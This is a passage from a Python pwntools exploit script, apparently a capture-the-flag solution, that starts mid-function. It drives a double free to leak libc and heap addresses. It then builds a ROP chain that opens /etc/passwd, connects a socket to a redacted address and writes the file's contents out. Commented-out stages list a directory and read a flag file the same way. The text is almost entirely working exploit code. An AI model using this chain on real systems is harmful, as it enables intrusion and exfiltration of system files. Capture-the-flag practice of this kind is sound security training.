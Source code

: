 ```py
    payload += p64(libc.address + 0x00000000000b8ac9)
    return payload

def exploit():
    attach(r)

    r.sendafter('Exit               \n', '1\x00')
    r.sendafter('? ', '1280')
    r.sendafter(': ','asdaasdasdasdsdasd\n')
    r.sendafter('? ', '128')
    r.sendafter(': ','asdaasdasdasdsdasd\n')

    # double free
    r.sendafter('Exit               \n', '3\x00')
    r.sendafter('Exit               \n', '3\x00')

    # leak libc, heap
    r.sendafter('Exit               \n', '2\x00')
    r.recvuntil('of ')
    res = r.recvuntil('\nPeeking', 1)
    leak = res[0x270:0x278]
    libc.address = 0
    libc.address = uu64(leak) - 0x1bcb00
    heap = uu64(res[0x8:0x10]) - 0x10
    
    if libc.address < 0:
        return
    
    print('libc %x' % libc.address)
    print('heap %x' % heap)

    # gdb.attach(r, 'b *{}'.format(libc.address + 0x000000000003124f))
    
    # one shot rop
    r.send('1\x00\x00\x00')
    r.send(str(0x2702))
    
    # here lies home grown rop, heap here is just use for rw page
    rop1  = ''
    rop1 += write_str(heap, '/etc/passwd\x00')
    rop1 += write_str(heap + 0x20, '/home/ctf/\x00') # placeholder
    rop1 += write_str(heap + 0x40, '/home/ctf/flag.txt\x00') # placeholder
    rop1 += write_str(heap + 0x100, 'REDACTED') # connect struct

    # pwntools
    rop = ROP(libc)
    # first pass rop, getting user
    rop.open(heap, 0, 0) # /etc/passwd
    rop.socket(2, 1, 0)
    rop.connect(1, heap + 0x100, 16)
    rop.read(0, heap + 0x1000, 0x1000) # /etc/passwd fd
    rop.write(1, heap + 0x1000, 0x1000) # socketfd
    # second pass rop, getting directory list
    # rop.open(heap, 0, 0) # /home/user/
    # rop.socket(2, 1, 0)
    # rop.connect(1, heap + 20, 16)
    # rop.getdents(0, heap + 0x1000, 0x1000) # dirfd
    # rop.write(1, heap + 0x1000, 0x1000) # socketfd
    # third pass rop, get the flag
    # rop.open(heap, 0, 0) # /home/user/flag.txt
    # rop.socket(2, 1, 0)
    # rop.connect(1, heap + 0x40, 16)
    # rop.read(0, heap + 0x1000, 0x1000) # flag fd
```